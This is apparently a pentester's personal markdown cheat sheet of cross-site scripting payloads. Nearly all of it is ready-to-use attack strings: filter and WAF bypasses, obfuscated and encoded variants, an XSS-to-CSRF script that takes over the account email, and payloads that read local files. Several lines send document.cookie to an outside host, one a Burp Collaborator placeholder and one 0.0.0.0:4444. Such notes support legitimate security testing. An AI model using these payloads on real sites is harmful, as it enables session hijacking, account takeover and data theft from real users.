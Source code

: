 # XSS

Cheat Sheet : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

"sink" refers to a point in the code where user-controlled data is incorporated into the web page's HTML or JavaScript

`<script>alert(1)</script>`

`"><svg onload=alert(1)>`

`<img src=1 onerror=alert(1)>`

`javascript:alert(document.cookie)`  -- In href senario

`"onmouseover="alert(1)`

`javascript:alert(1)`

`'-alert(1)-'`

`<img%20src=1%20onerror=alert(1)>`

`{{$on.constructor('alert(1)')()}}`  - DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`\"-alert(1)}//` - DOM

`<><img src=1 onerror=alert(1)>`  - where 1st angle brackets are removed by server

`<xss id=x onfocus=alert(document.cookie) tabindex=1>#x'` Custom tags

`<svg><animatetransform onbegin=alert(1)>`  SVG Injection to XSS

`</script><script>alert(1)</script>`  single quote and backslash escaped

`\'-alert(1)//` angle brackets and double quotes HTML-encoded and single quotes escaped

`${alert(1)}` into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

`<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>`   To Steal Cookies, cookies will be send to us.

XSS to CSRF:

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>` Reflected XSS with event handlers and href attributes blocked

`<>javascript:alert(document.cookie);`

`<>//google.com` - open redirect

`<script> window.location.href = 'https://malicious-site.com'; </script>`  Open Redirect via XSS

`<script> window.location.replace("www.google.com");</script>`  Open Redirect via XSS

`<script>new Image().src='http://0.0.0.0:4444/?cookie=' + encodeURI(document.cookie);</script>` - Stealing Cookie via XSS

---

`>>>>>><marquee>RXSS</marquee></head><abc%3E</script><script>alert(document.cookie)</script><meta` reflected input

`var a = document[.]querySelector('[nonce]');` 
![[Pasted image 20240527171129.png]]


```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>  
"'`><\x3Cimg src=xxx:x onerror=javascript:alert(1)>  
<math><x xlink:href=javascript:confirm`1`>click  
<script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/  
<svg onload=alert&#0000000040document.cookie)>  
  
JavaScript://%250Aalert?.(1)//  
'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!-->  
</Title/</Style/</Script/</textArea/</iFrame/</noScript>  
\74k<K/contentEditable/autoFocus/OnFocus=  
/*${/*/;{/**/(alert)(1)}//><Base/Href=//[google.com](http://google.com/)\76-->  
  
  
<detalhes%0Aopen%0AonToGgle%0A=%0Aabc=(co\u006efirm);abc%28%60xss%60%26%230000000000000000041//  
  
xss'"><iframe srcdoc='%26lt;script>;alert(1)%26lt;/script>'>  
  
javascript:%ef%bb%bfalert(XSS)  
  
<input accesskey=X onclick="self['wind'+'ow']['one'+'rror']=alert;throw 1337;">  
  
<svg onload="[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162'] ('\141\154\145\162\164\50\61\51')()">  
  
"><video><source onerror=eval(atob([http://this.id](http://this.id/))) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYXlkaW5ueXVudXMueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61;>  
  
&#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt;  
  
  
<svg><use href="data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnPgo8aW1hZ2UgaHJlZj0iMSIgb25lcnJvcj0iYWxlcnQoMSkiIC8+Cjwvc3ZnPg==hashtag#x" /></svg>  
  
"`'><script>\xE2\x80\x87javascript:alert(1)</script>  
  
  
<img/src=x onError="`${x}`;alert(`Hello`);">  
"`'><script>\xE2\x80\x87javascript:alert(1)</script>  
  
"%2Bself[%2F*foo*%2F'alert'%2F*bar*%2F](self[%2F*foo*%2F'document'%2F*bar*%2F]['domain'])%2F%2F  
  
"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>  
  
&#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt;
```

XSS payload to get /etc/passwd file 

```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](http://x.open/)(‘GET’,’file:///etc/hosts’);x.send();</script>


<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](http://x.open/)(‘GET’,’file:///etc/passwd’);x.send();</script>


<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](http://x.open/)(‘GET’,’file:///some/file’);x.send();</script>
```

XSS to SSRF

```
Input the following code in the vulnerable field:  
<iframe src="http://localhost/some/directory"></iframe>  
  
You can also read local files:  
<iframe src="file:///C:/Windows/win.ini" width="500" height="500">
```

Reflected XSS

`abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e`  --> 

```
abc`;return+false});});alert`xss`;</script>
```

`%60%2balert/**/(1)%2b%60`  --> `+alert/**/(1)+` 

WAF Bypass

`<ScRiPt></sCrIpT>`

`<h1 oNLY OnMouseover=prompt('XSS')>`

`+%22+onmouseover=%22alert(document.cookie)%22%3E%3C!--`

`<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>`


